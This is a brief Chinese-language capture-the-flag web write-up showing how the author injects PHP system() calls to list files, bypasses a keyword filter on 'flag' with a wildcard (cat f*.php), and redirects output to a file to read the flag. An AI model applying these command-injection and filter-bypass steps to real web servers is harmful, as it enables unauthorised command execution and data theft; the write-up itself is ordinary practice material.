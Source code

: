**`php`中, 可以使用`system("要执行的系统命令")`来执行系统命令**

例如这里传一个:

```php
system("ls")
```

成功读取了当前目录下的内容, 发现有个`flag.php`

<img src="/images/ctf-web06/image-20220924155523457.png" alt="image-20220924155523457" style="zoom:67%;" />

但flag会被过滤掉，遂尝试使用通配符*来绕过：

```php
system("cat f*.php")
```

<img src="/images/ctf-web06/image-20220924155651400.png" alt="image-20220924155651400" style="zoom:67%;" />

然而什么都没显示.. 那么尝试将结果输出到文件中:

```
system("cat f*.php>>3.txt")
```

执行后再访问`3.txt`, 就能够看到flag了
